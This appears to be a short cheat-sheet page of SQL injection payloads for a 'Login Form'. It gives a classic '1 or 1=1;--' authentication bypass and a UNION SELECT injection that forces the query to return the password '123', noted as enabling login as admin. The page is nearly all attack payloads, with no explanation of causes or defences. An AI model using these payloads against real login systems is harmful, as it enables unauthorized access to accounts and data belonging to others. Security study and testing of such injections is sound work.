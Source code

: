 --- ---

<h2>Login Form</h2>

Login Bypass
```
'1 or 1=1;--
```


Impersonalisation
```
'UNION SELECT '123' AS password FROM admins WHERE '1' = '1  ---> Set Password has 123
```

- Enable you to login has Admin with the password "123"